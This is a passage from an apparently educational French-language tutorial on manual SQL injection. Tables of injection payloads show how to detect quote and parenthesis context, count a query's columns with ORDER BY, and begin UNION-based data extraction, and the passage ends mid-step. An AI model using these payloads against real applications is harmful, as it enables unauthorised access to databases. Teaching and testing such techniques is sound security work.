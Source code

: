 Entrée  |  Remarque  
--|--
1' #  | Si OK, pas de parenthèses  
1') # |  Si OK, utilise les parenthèses

Si c'est une assignation **guillemets**, faire les tests suivants :  

Entrée  |  Remarque  
--|--
1" #  | Si OK, pas de parenthèses  
1") #  |  Si OK, utilise les parenthèses

### 2. Déterminer le nombre de colonnes  

Pour déterminer le nombre de colonnes de la requête SQL, nous allons utiliser la fonction ORDER BY.  

Prenez cette requête :  

`Select nom, prenom from etudiants order by 1`  

Cette requête retournera la liste des étudiants triée par nom.

`Select nom, prenom from etudiants order by 2`  

Cette requête retournera la liste des étudiants triée par prénom.

`Select nom, prenom from etudiants order by 3`  

Cette requête retournera une erreur, la colonne 3 n'existe pas.

Sachant ce comportement, injectons ceci :  

Assignation  | Entrée
--|--
Integer  |  1 ORDER BY 1 #
Apostrophe  |  1' ORDER BY 1 #
Guillemets  |  1" ORDER BY 1 #

Ensuite  :  

Assignation  | Entrée
--|--
Integer  |  1 ORDER BY 2 #
Apostrophe  |  1' ORDER BY 2 #
Guillemets  |  1" ORDER BY 2 #

Et ainsi de suite, jusqu'à obtention d'une erreur.  

### 3. Trouver les informations sur la base de données

La technique pour trouver les informations sur la base de données et tout autre données est l'utilisation de l'instruction UNION.  

L'instruction UNION permet de combiner la sortie de deux requêtes SQL en une seule, tant et aussi longtemps qu'elles ont le même nombre de colonnes.  

Prenons l'instruction suivante :  

`Select nom, prenom from etudiants where id = 1`

